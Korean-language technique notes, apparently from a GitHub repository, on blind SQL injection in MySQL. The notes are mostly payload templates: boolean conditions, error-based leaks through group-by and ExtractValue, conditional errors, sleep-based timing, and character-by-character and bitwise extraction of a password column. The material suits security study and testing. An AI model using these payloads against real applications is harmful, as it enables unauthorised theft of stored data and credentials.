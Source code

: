 # Blind sql injection

## 기본 틀 짜기

### 화면으로 참 거짓은 구분할 수 없을 때

내가 원하는 statement의 결과에 따라 화면에 보여지는 결과가 다르게 나오도록 인젝션 구문을  만들면 된다.

```sql
select * from table where id=if(statement, 1,2)
```

```sql
select * from table where id=0 or statement
```

### 화면으로 결과를 알 수 없으나 error가 보일 때

#### group-by infoleak

```sql
select * from table where col=1 in (select min(@:=1)from (select 1 union select 2)k group by concat(version(),@:=@-1));
```

`ERROR 1062 (23000): Duplicate entry '5.5.38-0ubuntu0.12.04.10' for key 'group_key'`

#### xpath infoleak

```sql
select * from table where col=1 and ExtractValue(1, concat(0x5c, (select @@version)))
```

`ERROR 1105 (HY000): XPATH syntax error: '\5.5.38-0ubuntu0.12.04.1'`

constant에 대해서만 수행한다는 약점이 있다.

> mysql의 constant 정의는 좀 신박한데 자세한 내용에 대해서는 [이곳](http://dev.mysql.com/doc/internals/en/optimizer-constants-constant-tables.html) 참조. 일반적인 select 구문에 대해서는 문제없다고 생각해도 좋으나 해당 테이블의 컬럼을 바로 참조할 수는 없음 

#### error-based blind sql injection

mysql은 쿼리를 대체로 eager하게 evaluate하기 때문에 조건부로 에러가 나는 경우가 잘 없지만 몇몇 예외 케이스들이 있다. statement 자리에 원하는 조건문을 넣고 error의 여부로 참거짓을 판단. 

* more than one row error

```sql
select * from table where col=if(statement, (select 1 union select 2), 0);
```

```sql
select * from table where col=if(statement, (select 1 from information_schema.tables), 0);
```

* overflow

```sql
select * from table where col=if(statement, pow(50,500), 0);
```

* regexp

```sql
select * from table where name=if(statement, (1 regexp 0x28), 0);
```

### error도 안 보일 때

#### time-based blind sql injection

statement 자리에 원하는 조건문을 넣고 response time을 재서 참거짓을 판단.

* sleep

```sql
select * from table where col=if(statement, sleep(3), 0);
```

그 밖에 benchmark를 활용하는 방법도 있지만 경험상 딱히 쓸 일이 생겼던 적은 없었다.

## 조건문 만들기

### 기본 

string으로 된 value를 빼낸다고 했을 때 대체로 한 글자씩 맞추는 방법을 쓰게 된다.

```sql
(mid((select password from table limit 1),index,1)=='a')
```
이건 어떤 target의 `index`번째 글자가 `'a'`인지를 알려주는 대표적인 조건문.

변형은 많이 있다. 대표적으로 아래와 같은 경우..

```sql
(select password from table limit 1)>0x61
(select password from table limit 1)>0x6162
(select password from table limit 1)>0x616265
...
```
이건 부등호를 통한 string comparision을 이용한 것이다. 주로 필터링이 많이 되어 있을 때 씀.

### 응용

위처럼 무식하게 하나씩 해보면서 맞추면 후보군이 알파벳 소문자뿐이라고 해도 한 글자당 26번의 쿼리가 소요된다. 그러나 아스키 코드 한 글자는 8비트이므로 비트 단위로 맞추면 쿼리를 8번만 해도 한 글자를 맞출 수 있다.

```sql
(substr(lpad(bin(ascii(substr(target, i, 1))),8,0), j, 1) = 0x31)
```

물론 이게 싫다면 binary search를 해도 되지만 아마 그게 더 귀찮을 것이다..

## 주의

모든 쿼리는 filter evasion을 고려 안하고 만들어졌으며 읽는이가 알아서 해야 함
